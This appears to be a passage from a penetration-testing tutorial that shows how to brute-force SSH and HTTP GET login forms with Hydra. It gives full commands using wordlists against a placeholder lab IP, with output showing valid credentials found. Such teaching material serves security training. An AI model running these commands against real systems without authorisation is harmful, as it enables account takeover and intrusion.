 #### SSH

SSH brute-forcing can be common if your server is accessible to the Internet. Hydra supports many protocols, including SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.

```shell-session
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

#### HTTP login pages

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: hydra http-get-form -U, we can see that hydra has the following syntax for the http-get-form option:

`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

```shell-session
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
```
